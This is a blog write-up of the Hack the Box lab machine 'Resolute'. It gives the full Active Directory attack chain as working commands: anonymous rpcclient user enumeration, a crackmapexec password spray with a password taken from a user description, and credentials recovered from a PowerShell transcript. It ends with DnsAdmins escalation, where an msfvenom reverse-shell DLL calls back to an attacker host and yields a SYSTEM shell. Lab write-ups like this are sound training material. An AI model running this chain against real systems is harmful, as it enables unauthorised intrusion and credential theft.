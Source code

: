 ```yaml
---
layout: post
title: Hack the Box - Resolute
author: Kolja
categories: [HtB]
tags: [ad]
---
```




## Enumeration
As done in the `HtB-Forest`  box can enumerate users using `rpcclient`:
```
rpcclient -U "" -N 10.10.10.169
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```

I also realized, that `enum4linux` displays this information too. Additionally, it gives us the descriptions of the users, which does contain the following:
```
Account created. Password set to Welcome123!
```

## Foothold
We can use the password from the description in combination with our user list to do a password spray attack:
```
crackmapexec smb -u ./userlist.txt -p 'Welcome123!' -d megabank.local 10.10.10.169       
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
```

This shows, that the `melanie` user has this password. So we now have valid credentials: `melanie/Welcome123!`

We can use these credentials to collect data using the `bloodhound-python` collector:
```
bloodhound-python -c All -u melanie@megabank.local -p 'Welcome123!' -ns 10.10.10.169 -d megabank.local -dc resolute.megabank.local
```

The collected data shows, that our owned user is in a group, that have some WMI privileges:
![wmi group](/assets/htb_resolute_wmi.png)

Additionally, we should be able to use PSRemote to gain access to the DC:
![psremote permissions](/assets/htb_resolute_psremote.png)

We can use `evil-winrm` to confirm this:
```
evil-winrm -i 10.10.10.169 -u Melanie -p 'Welcome123!' 
```

This works and after enumerating the box a bit we can find a file under:
```
C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

This file contains credentials for an additional user:
```
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```
These credentials are valid:
```
crackmapexec smb -u ./userlist.txt -p 'Serv3r4Admin4cc123!' -d megabank.local 10.10.10.169
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Administrator:Serv3r4Admin4cc123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Guest:Serv3r4Admin4cc123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\krbtgt:Serv3r4Admin4cc123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\DefaultAccount:Serv3r4Admin4cc123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\ryan:Serv3r4Admin4cc123! (Pwn3d!)
```

The data we imported into `bloodhound` tells us, that the user is in the `DNSADMINS` Group:
![DNSAdmin group](htb_resolute_dns_admin.png)

On older systems, this allowed us to escalate our privileges (this should be fixed by now). To exploit this we need a dll, which we can generate  using `msfvenom`:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f dll > test.dll
```

Afterward, we host this dll using `impacket-smbserver` and load it on the target system with the following commands:
```
dnscmd Resolute /config /serverlevelplugindll \\10.10.14.10\kali\test.dll;sc.exe stop dns;sc.exe start dns
```
This gives us a system shell:
```
nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from resolute.megabank.local [10.10.10.169] 49684
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```
